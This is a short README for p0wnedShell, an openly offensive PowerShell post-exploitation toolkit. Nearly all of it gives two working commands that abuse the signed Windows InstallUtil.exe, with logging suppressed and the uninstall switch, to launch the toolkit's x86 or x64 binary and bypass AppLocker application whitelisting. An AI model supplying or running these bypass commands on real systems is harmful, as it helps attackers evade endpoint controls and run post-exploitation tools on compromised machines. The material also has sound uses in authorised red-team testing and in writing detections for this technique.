 # p0wnedShell
PowerShell Runspace Post Exploitation Toolkit 

Author: <Cneeliz>

License: BSD 3-Clause

To run as x86 binary and bypass Applocker:

cd \Windows\Microsoft.NET\Framework\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedShell\p0wnedShellx86.exe

To run as x64 binary and bypass Applocker:

cd \Windows\Microsoft.NET\Framework64\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedShell\p0wnedShellx64.exe
